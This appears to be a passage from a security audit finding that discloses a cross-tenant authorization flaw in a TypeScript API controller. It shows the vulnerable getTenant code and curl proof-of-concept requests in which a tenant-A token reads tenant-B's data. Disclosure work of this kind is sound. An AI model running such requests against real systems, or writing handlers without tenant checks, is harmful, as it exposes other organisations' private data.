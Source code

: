 **File:** `packages/api/src/controllers/TenantController.ts` (lines 103-129)

```typescript
async getTenant(req: Request, res: Response, next: NextFunction): Promise<void> {
  try {
    const { tenantId } = req.params;  // ⚠️ User-controlled

    logger.info('Getting tenant details', { tenantId });

    // ❌ NO CHECK: req.user.tenantId === tenantId
    // ❌ NO CHECK: req.user.roles.includes('admin')
    const [tenant, profile, activeModules] = await Promise.all([
      this.tenantRepo.getTenant(tenantId),  // ⚠️ Retrieves ANY tenant
      this.tenantRepo.getProfile(tenantId),
      this.tenantRepo.getActiveModules(tenantId),
    ]);

    if (!tenant) {
      ApiResponseUtil.notFound(res, 'Tenant');
      return;
    }

    ApiResponseUtil.success(res, {
      tenant,
      profile,
      activeModules,
    });  // ⚠️ Returns sensitive data for ANY tenant
  } catch (error) {
    next(error);
  }
}
```

#### Proof of Concept

**Attack Scenario 1: Cross-Tenant Data Access**

```bash
# Attacker authenticates as user in tenant-A
curl -X POST http://localhost:3000/api/auth/login \
  -d '{"email":"attacker@tenant-a.com","password":"password"}' \
  -H "Content-Type: application/json"

# Receives token for tenant-A
TOKEN="eyJhb..."  # Token with tenantId: tenant-a

# Attacker accesses violations from tenant-B (different tenant)
curl http://localhost:3000/api/modules/sod/tenant-b/violations \
  -H "Authorization: Bearer $TOKEN"

# ⚠️ SUCCESS: Returns tenant-B's violations
# ❌ VULNERABILITY: No authorization check performed
```
